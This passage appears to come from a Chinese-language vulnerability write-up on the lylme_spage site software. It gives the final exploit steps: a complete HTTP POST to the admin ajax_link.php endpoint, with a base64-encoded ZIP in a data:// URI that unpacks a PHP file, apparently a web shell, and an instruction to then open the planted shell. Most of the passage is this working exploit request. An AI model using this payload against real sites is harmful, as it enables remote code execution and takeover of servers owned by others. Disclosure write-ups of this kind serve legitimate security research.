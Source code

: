 3) 获取第二步的结果，构造最终的 payload

```plain
POST /lylme_spage-master/admin/ajax_link.php?submit=update HTTP/1.1
Host: localhost:7777
Connection: close
Cookie: admin_token=ec2a3HYAaqQws10zQfeSJaDeJN1aI2gOnV9BLpaHNYdb2hHPQ9nYkoMzuOuQIokfoyJRVcVNK3aT8JUZXq5WSPqTBQ;
Content-Type: application/x-www-form-urlencoded
Content-Length: 198

file=data://text/plain;base64,UEsDBBQAAAAIALMUSFdQg8x9EgAAABIAAAAFAAAAMS5waHCzsS/IKFAA4sy8tHwNTWt7OwBQSwECFAMUAAAACACzFEhXUIPMfRIAAAASAAAABQAAAAAAAAAAAAAAgAEAAAAAMS5waHBQSwUGAAAAAAEAAQAzAAAANQAAAAAA
```

4) 解压成功之后会返回"success", 之后直接访问生成的 Shell 即可。

[![](assets/1701606448-54c3bc28ee429e88b5ce9028787972ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135519-8be6c002-8ce9-1.png)

[![](assets/1701606448-055a89bae988987f21ac4493be91ae6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135529-91f5f936-8ce9-1.png)
